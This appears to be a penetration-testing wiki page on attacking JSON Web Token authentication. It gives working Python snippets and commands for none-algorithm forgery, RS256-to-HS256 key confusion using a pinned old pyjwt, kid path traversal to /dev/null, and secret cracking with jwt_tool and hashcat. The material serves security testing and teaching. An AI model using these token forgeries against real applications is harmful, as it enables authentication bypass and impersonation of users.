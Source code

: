 # Insecure JSON Web Tokens

## Theory

Some web applications rely on JSON Web Tokens (JWTs) for stateless authentication and access control instead of stateful ones with traditional session cookies. Some implementations are insecure and allow attackers to bypass controls, impersonate users, or retrieve secrets.

## Practice

Testers need to find if, and where, the tokens are used. A JWT is a base64 string of at least 100 characters, made of three parts (header, payload, signature) separated by dot, and usually located in `Authorization` headers with the `Bearer` keyword. See the the following example.

```
Authorization: Bearer eyJ0eXAiOiJKV1Q[...].eyJpc3MiOiJodHRwO[...].HAveF7AqeKj-4[...]
```

Once the tokens are found, testers need to assess their implementation's security by attempting some known attacks and flaws.

### Sensitive data

JWTs are just base64 encoded data. They may contain sensitive unencrypted information.

### Signature attack - None algorithm

Testers need to decode the token, change the algorithm to `None` (or `none`, `NONE`, `nOnE`) in the header, remove the signature, and send the modified token. Some applications are vulnerable to this attack since some support a None algorithm for signature.

This can be done in Python.

```python
import jwt
old_token = 'eyJ0eXAiOiJKV1Q[...].eyJpc3MiOiJodHRwO[...].HAveF7AqeKj-4[...]'
old_token_payload = jwt.decode(old_token, verify=False)
new_token = jwt.encode(old_token_payload, key='', algorithm=None)
print(new_token)
```

If the token is accepted by the web app, it means the payload can be altered.

```python
import jwt
payload = {'key1':'value1', 'key2':'value2'}
token = jwt.encode(payload, key='', algorithm=None)
print(token)
```

### Signature attack - RS256 to HS256

If the algorithm used to sign the payload is RS256, testers can try to use HS256 instead. Instead of signing the JWT payload with a private key, using HS256 will make the web app sign it with a public key that can sometimes be easily obtained.

{% hint style="info" %}
Some applications re-use their TLS certificate for JWT operations. The TLS certificate's public key used by a server can be obtained with the following command.

```bash
echo | openssl s_client -connect $TARGET:443 | openssl x509 -pubkey -noout > pubkey.pem
```
{% endhint %}

The following Python code can be used to identify if the web application is vulnerable to this attack.

```python
import jwt
old_token = 'eyJ0eXAiOiJKV1Q[...].eyJpc3MiOiJodHRwO[...].HAveF7AqeKj-4[...]'
old_token_payload = jwt.decode(old_token, verify=False)
public_key = open('pubkey.pem', 'r').read()
new_token = jwt.encode(old_token_payload, key=public_key, algorithm='HS256')
print(new_token)
```

If the token is accepted by the web app, it means the payload can be altered.

{% hint style="warning" %}
The jwt library imported in the following Python code raises an exception when attempting to use an asymmetric key or x509 certificate as an HMAC secret. Testers need to install version 0.4.3 `pip/pip3 install pyjwt==0.4.3`.
{% endhint %}

```python
import jwt
public_key = open('pubkey.pem', 'r').read()
payload = {'key1':'value1', 'key2':'value2'}
token = jwt.encode(payload, key=public_key, algorithm='HS256')
print(token)
```

### Signature attack - KID header path traversal

The [kid](https://www.rfc-editor.org/rfc/rfc7515#section-4.1.4) (Key ID) is an optional parameter specified in the JWT header part to indicate the key used for signature validation in case there are multiple ones.

The structure of this ID is not specified and it can be any string value (case-sensitive).&#x20;

The last part is interesting because, if the parameter is vulnerable to [directory traversal](../../web-services/attacks-on-inputs/directory-traversal.md), this would allow to perform path traversal and point to a file `path/file` with content we can guess or known somehow, and use its content as the value of the signing key.

{% hint style="info" %}
> There are a bunch of files in /sys that are basically flags. Like the flag that says if ftrace is enabled is either 0 or 1. So the attacker just creates 2 tokens with that as the key and one of them will work!
>
> _(By_ [_Intigriti_](https://twitter.com/intigriti) _on_ [_Twitter_](https://twitter.com/intigriti/status/1618653959752925184)_)_

The example mentioned above is located at `/proc/sys/kernel/ftrace_enabled`
{% endhint %}

This can be done in Python.

{% code overflow="wrap" lineNumbers="true" %}
```python
import jwt
payload = {'key1':'value1', 'key2':'value2'}
token = jwt.encode(payload, key='file-content', algorithm='HS256', headers={"kid": "../../../path/to/file"})
print(token)
```
{% endcode %}

#### Special case: `file=/dev/null`

The signature validation can be bypassed by pointing to `/dev/null` which will return an empty string, meaning that an empty key could be used for signature.

{% hint style="info" %}
"[JWT authentication bypass via kid header path traversal](https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-kid-header-path-traversal)" PortSwigger lab provides more insight on this technique.
{% endhint %}

{% code overflow="wrap" lineNumbers="true" %}
```python
import jwt
payload = {'key1':'value1', 'key2':'value2'}
token = jwt.encode(payload, key='', algorithm='HS256', headers={"kid": "../../../dev/null"})
print(token)
```
{% endcode %}

{% hint style="info" %}
If Burp is used to craft the JWT token, a symmetric key with value of the `k` property in the JWT equal to `AA==` (base64 value of null byte) must be created.&#x20;

The same secret value is to be used on [jwt.io](https://jwt.io/).&#x20;
{% endhint %}

### Cracking the secret

When JWT uses `HMAC-SHA256`/`384`/`512` algorithms to sign the payload, testers can try to find the secret if weak enough.

[JWT tool](https://github.com/ticarpi/jwt\_tool) (Python3) can be used for this purpose.

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"># crack the secret using dictionnary attack
<strong>jwt_tool.py -v -C -d $wordlist_file "$JWT_value"
</strong><strong>
</strong># use the secret to tapmer (-T option) the token
# running this command will show up a menu to choose the value to tamper
# the result token will be signed with the submited secret using the specified singing algorithm "alg" (hs256/hs384/hs512 = HMAC-SHA signing).
<strong>jwt_tool.py -v -S $alg -p "$secret" -T "$JWT_value"
</strong></code></pre>

JWT secrets can also be cracked using hashcat (see the [AD credential cracking](../../ad/movement/credentials/cracking.md) page for more detailed info on how to use it).

```bash
hashcat --hash-type 16500 --attack-mode 0 $JWTs_file $wordlist_file
```

### Recovering the public key

In certain scenarios, public keys can be recovered when knowing one (for algos `ES256`, `ES384`, `ES512`) or two (for algos `RS256`, `RS384`, `RS512`) tokens.

This can be achieved with the following Python script : [JWT-Key-Recover](https://github.com/FlorianPicca/JWT-Key-Recovery)

## References

{% embed url="https://www.sjoerdlangkemper.nl/2016/09/28/attacking-jwt-authentication/" %}

{% embed url="https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/" %}

{% embed url="https://blog.imaginea.com/stateless-authentication-using-jwt-2/" %}

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/JSON%20Web%20Token" %}

{% embed url="https://jwt.io/" %}

{% embed url="https://portswigger.net/web-security/jwt" %}

{% embed url="https://systemweakness.com/deep-dive-into-jwt-attacks-efc607858af6" %}
